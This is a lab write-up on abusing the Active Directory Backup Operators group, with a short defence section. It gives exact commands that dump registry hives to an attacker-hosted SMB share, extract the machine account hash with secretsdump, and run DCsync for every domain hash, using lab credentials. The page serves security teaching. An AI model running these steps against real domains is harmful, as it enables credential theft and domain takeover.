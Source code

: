 # Backup Operators

## Configuring

### Prerequisite&#x20;

The membership of the "Backup Operators" group is configured in the Dumping DPAPI page.

{% content-ref url="../../misc/page-3.md" %}
[page-3.md](../../misc/page-3.md)
{% endcontent-ref %}

## Attacking

### How it works

The Backup Operators group is a built in group in AD. By default it has no members.

Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer. This group cannot be renamed, deleted, or moved. They also have the permissions needed to replace files (including operating system files) on domain controllers.

One of the known attacks is to copy the ntds.dit file and extract all the domain credentials from it.

{% hint style="info" %}
I wasn't able to copy the `ntds.dit` file. There are some write-ups such as [these](https://coldfusionx.github.io/posts/Blackfield-HTB/) describing how to abuse the "Backup Operator" group through making a shadow copy, but these require winrm access to the DC.&#x20;

In my attack we will use the tool BackupOperatorToDA from [mpgn](https://github.com/mpgn/BackupOperatorToDA).
{% endhint %}

### Tools

* [Smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
* [BackupOperatorToDA.exe](https://github.com/mpgn/BackupOperatorToDA)

### Executing the attack

#### The small stuff

* Login to the DC locally (Not through RDP but only locally):

![](<../../../.gitbook/assets/image (22) (1).png>)

* List files on the Domain Controller:

![](<../../../.gitbook/assets/image (17) (1) (1).png>)

* Copy files from the Domain Controller:

![](<../../../.gitbook/assets/image (67) (1) (1).png>)

#### To Domain Admin!

From our enumeration when we gained access to the `sa_backup` account we know the user is part of the Backup Operators group. We can abuse the permissions by making a copy of the SAM, SYSTEM and SECURITY hive, extract the machine account hash and then execute a DCsync attack.

1. Login to `DATA01` as `sa_backup` with the password `LS6RV5o8T9`.
2. Run the following command to check if the `sa_backup` user is member of the `Backup Operators` group.

![](<../../../.gitbook/assets/image (19) (1).png>)

3\. One of the requirements is to host a public SMB share, we can do this with the smbserver.py script from Impacket. This will create a share on `\\192.168.248.2\share`.

```
python3 /opt/impacket/examples/smbserver.py share ~/adlab -smb2support
```

![](<../../../.gitbook/assets/image (71) (1) (1) (1) (1) (1).png>)

4\. The next step is to execute the BackupOperatorToDa.exe tool to retrieve the the SAM, SYSTEN and SECURITY HIVE and save them in our created public share:

```
.\BackupOperatorToDA.exe -t \\dc03.secure.local -u sa_backup -p LS6RV5o8T9 -d secure.local -o \\192.168.248.2\share\
```

![](<../../../.gitbook/assets/image (68) (1) (1).png>)

{% hint style="info" %}
If you are using another share, make sure the share is writeable by anyone otherwise the DC won't be able to write its files.
{% endhint %}

5\. If we check in our directory `~/adlab` we can see the files: (for the screenshot I made a copy in the HIVE directory)

![](<../../../.gitbook/assets/image (73) (1) (1) (1).png>)

6\. The next step is to run SecretDump.py to retrieve the machine account NTLM hash out of these HIVE dumps:

```
secretsdump.py LOCAL -system ~/adlab/SYSTEM -security ~/adlab/SECURITY -sam ~/adlab/SAM
```

![](<../../../.gitbook/assets/image (53).png>)

7\. The last step is to run Secretsdump.py to run DCsync and retrieve all the domain account hashes:

```
secretsdump.py 'secure.local/dc03$'@dc03.secure.local -hashes aad3b435b51404eeaad3b435b51404ee:ba6414d4e6ce546465b256950282c7f3
```

![](<../../../.gitbook/assets/image (18) (1) (1) (1).png>)

We retrieved the NTLM account hash of every user in the domain and could authenticate with these to the domain controller. As Administrator for example which is Domain Admin.

## Defending

### Recommendations

* Never use any of the "Operator" groups. Create specialised groups and minimal permissions for the tasks the different IT departments/roles need. Use the least privilege principal.

### Detection



## References

{% embed url="https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#account-operators" %}

